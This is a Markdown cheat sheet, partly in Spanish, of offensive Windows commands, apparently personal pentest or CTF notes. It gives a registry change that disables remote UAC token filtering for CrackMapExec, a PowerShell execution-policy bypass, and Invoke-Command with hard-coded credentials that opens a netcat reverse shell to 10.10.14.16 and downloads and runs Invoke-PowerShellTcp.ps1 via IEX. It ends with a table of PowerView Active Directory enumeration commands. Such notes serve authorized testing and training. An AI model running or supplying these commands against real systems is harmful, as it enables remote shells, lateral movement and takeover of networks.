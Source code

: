 # Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

# Con o sin ComputerName en el caso de que sea local
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```

## PowerView

| Name | Description | Suggested Execution |
|---|---|---|
| Get-Domain | Returns a domain object for the current domain or the domain specified with `-Domain`. Useful information includes the domain name, the forest name and the domain controllers. | `Get-Domain` |
| Get-DomainController | Returns the domain controllers for the current or specified domain. | `Get-DomainController \| select Forest, Name, OSVersion \| fl` |
| Get-ForestDomain | Returns all domains for the current forest or the forest specified by `-Forest`. | `Get-ForestDomain` |
| Get-DomainPolicyData | Returns the default domain policy or the domain controller policy for the current domain or a specified domain/domain controller. Useful for finding information such as the domain password policy. | `Get-DomainPolicyData \| select -expand SystemAccess` |
| Get-DomainUser | Return all (or specific) user(s). To only return specific properties, use `-Properties`. By default, all user objects for the current domain are returned, use `-Identity` to return a specific user. | `Get-DomainUser -Identity jking -Properties DisplayName, MemberOf \| fl` |
| Get-DomainComputer | Return all computers or specific computer objects. | `Get-DomainComputer -Properties DnsHostName \| sort -Property DnsHostName` |
| Get-DomainOU | Search for all organization units (OUs) or specific OU objects. | `Get-DomainOU -Properties Name \| sort -Property Name` |
| Get-DomainGroup | Return all domain groups or specific domain group objects. | `Get-DomainGroup \| where Name -like "*Admins*" \| select SamAccountName` |
| Get-DomainGroupMember | Return the members of a specific domain group. | `Get-DomainGroupMember -Identity "Domain Admins" \| select` |
| Get-DomainGPO | Return all Group Policy Objects (GPOs) or specific GPO objects. To enumerate all GPOs that are applied to a particular machine, use `-ComputerIdentity`. | `Get-DomainGPO -Properties DisplayName \| sort -Property DisplayName` |
| Get-DomainGPOLocalGroup | Returns all GPOs that modify local group membership through Restricted Groups or Group Policy Preferences. You can then manually find which OUs, and by extension which computers, these GPOs apply to. | `Get-DomainGPOLocalGroup \| select GPODisplayName, GroupName` |
| Get-DomainGPOUserLocalGroupMapping | Enumerates the machines where a specific domain user/group is a member of a specific local group. This is useful for finding where domain groups have local admin access, which is a more automated way to perform the manual cross-referencing described above. | `Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators \| select ObjectName, GPODisplayName, ContainerName, ComputerName \| fl` |
| Get-DomainTrust | Return all domain trusts for the current or specified domain. | `Get-DomainTrust` |